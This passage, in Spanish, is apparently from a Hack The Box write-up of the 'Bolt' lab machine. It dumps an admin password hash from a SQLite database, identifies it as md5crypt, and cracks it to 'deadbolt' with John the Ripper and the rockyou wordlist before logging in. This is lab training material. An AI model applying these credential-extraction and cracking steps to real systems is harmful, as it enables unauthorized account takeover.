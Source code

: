 ```console
sqlite> .tables
User
sqlite> select * from user;
id  username  email           password                            email_confirmed  profile_update
--  --------  --------------  ----------------------------------  ---------------  --------------
1   admin     admin@bolt.htb  $1$sm1RceCh$rSd3PygnS/6jlFDfF2J5q.                                 
sqlite> 
```

Hemos encontrado un usuario en esta base de datos y el hash de su contraseña. Tratemos de romper este hash, pero antes tenemos que saber qué tipo de hash tenemos.

```console
p3ntest1ng:~$ hash-identifier
 HASH: $1$sm1RceCh$rSd3PygnS/6jlFDfF2J5q.

Possible Hashs:
[+] MD5(Unix)
--------------------------------------------------
 HASH: ^C

	Bye!
```

Este tipo de hash ya lo hemos visto anteriormente y sabemos que se trata de un salted-hash por lo cual el formato es **`md5crypt-long`**

```console
p3ntest1ng:~$ echo '$1$sm1RceCh$rSd3PygnS/6jlFDfF2J5q.' > hash
p3ntest1ng:~$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
deadbolt         (?)
1g 0:00:00:25 DONE (2022-02-19 16:49) 0.03972g/s 6862p/s 6862c/s 6862C/s december91..deadbeat
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Lo tenemos. Ya podemos iniciar sesión en la página con estas credenciales.

![Admin](/assets/images/hackthebox/bolt/admin_panel.png)

